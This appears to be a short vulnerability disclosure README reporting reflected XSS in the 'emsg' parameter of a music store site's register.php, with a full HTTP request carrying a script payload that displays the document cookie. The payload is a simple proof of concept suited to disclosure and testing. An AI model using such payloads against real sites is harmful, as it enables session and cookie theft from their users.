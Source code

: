 # vulnerability music store website

![](https://raw.githubusercontent.com/Th4r0s/my_CVE/main/web/vuln1/docs/vuln_website.png)

## description

The emsg GET parameter used for prompt error message in case of missing field in register form is vulnerable to reflected XSS.
Is possible to inject javascript code and prompt document cookie.

## vulnerability 

```
GET /mw/register.php?emsg=%3Cscript%3Ealert(Document.cookie)%3C/script%3E HTTP/2
Host: vulnhost.com
Cookie: PHPSESSID=tttbitb72h0efdddda4ft9q8e2f
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
```
## Description01:

JavaScript can be injected into the application (a vulnerable app - register.php, no sanitizing emsg GET parameter).



